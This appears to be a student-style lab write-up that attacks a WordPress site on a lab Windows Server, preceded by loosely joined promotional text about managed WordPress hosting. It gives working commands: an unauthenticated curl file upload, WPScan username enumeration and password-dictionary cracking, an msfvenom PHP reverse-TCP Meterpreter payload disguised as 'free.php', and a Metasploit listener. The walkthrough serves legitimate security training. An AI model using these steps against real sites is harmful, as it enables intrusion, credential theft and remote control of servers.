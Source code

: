 Managed WordPress hosting is a distinct sub-category of web hosting configured to optimize sites built on this content management system.
WordPress is the world’s most popular CMS, with around 42.5% of all websites using it. This is why many web hosting companies offer managed WordPress hosting services.
Depending on the web host, WordPress hosting can fall under different web hosting categories. For example, different hosting providers may offer Shared WordPress hosting, VPS WordPress hosting, or Cloud WordPress hosting.
The advantages of hosting a WordPress site, there are many benefits to choosing a managed WordPress hosting plan over a regular shared web hosting service plan. Examples of 
Easier Setup -> Pre-installed plugins and themes help create an optimized wordpress host environment, easing technical setups and installations. 
Optimal Performance -> They use a server that has been configured specifically for WordPress sites, often built in caching software is also included to ensure fast loading speed. 
Up-to-date servers and software -> web hosts ensure their wordpress specific servers run the latest software, resulting in optimal compatibility and seamless performance. 
Hassle-free management -> Leave most of the WordPress technicalities to your web hosting plans and focus on other factors like improving search engine optimization strategies. 

After we ran nmap from our Kali Linux on our Windows Server 08, we can see that other ports are open as well, we will now exploit a wordpress site from the list below. 
![open ports](https://user-images.githubusercontent.com/93686063/201990303-3fc5f9b6-b9eb-4d42-8930-7c002deaecaa.JPG)

$`WPScan` is a helpful tool which can help us to enumerate a Wordpress site. It can look for credentials as well as information about the WordPress Site. According to W3Techs, 2022 Wordpress is used by 43.2% of all the websites on the Internet. Two out of every five websites on the Internet use WordPress. WPScan also has a password cracker, it can help check your website for weak authentication credentials. You would need to provide WPScan with a passwrod dictionary of your choosing. 

We will be exploiting the $`Apache httpd 2.2.21 (Win64) PHP/5.3.10 DAV/2` which is in port 8585 for the next exercise. If we type in the $`10.0.2.8:8585` we can see a Wampserver which is used to host a Wordpress website. Now we will see if we can upload anything on the site. First we will test out if we can upload a file into the server. we will do a regular $`echo` command in order to upload a file. $`echo "Hello World" > test.php` After we create the file, now we need to upload the file in the Wamp Server. 

In order to upload the file to the server, we use the $`curl` command. $` curl http://10.0.2.8:8585/uploads/ --upload-file test.php` We go back to the browser and see that the file has been uploaded. A MAJOR SECURITY VULNERABILITY. 
Before we use the WPScan, we need to update the db. After the update we do $`wpscan --url http://10.0.2.8:8585/wordpress -e(enumerate) vp(verbose), u(username)` This will do the scanning, under interesting findings it will have things that we can look for. It will also show users identified and if possible will get the passwords. 
We can now try to get the passwords by adding a dictionary password file. $`wpscan --url http://10.0.2.8:8585/wordpress --passwords /usr/share/wordlists/metasploit/password.lst` It will try to find the password using the values in the password file. You as an attacker will have to play around and see if you can add a different file to find the right password. It did not find any passwords, this is a tedious process so we might have to try different things in order to make sure we get the right. 

Now that we know that we can upload a file, we will be using msfvenom in order to get a meterpreter session. We will open a new terminal and first search for a `reverse_tcp`. We will type in $`msfvenom --list payloads | grep php` the grep command will look for payloads which have php on it. When we find it we will type $`msfvenom --payload php/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 > free.php` this is create a payload and save it as `free.php` We will need to upload this `free.php` to the uploads folder so that when somebody clicks on it, then it will connect back to our listener. 

After this we will go back to the msfconsole, $`msf6 > use exploit/multi/handler`. Here we are setting up the listener. We want the user to connect back to me. After this we do options so as to see what parameters we need to set in order to use the exploit. We have to set the $`Rhost` and $`Rport` and we need to add the $`payload options` we will type in set payload options `php/meterpreter/reverse_tcp`. 




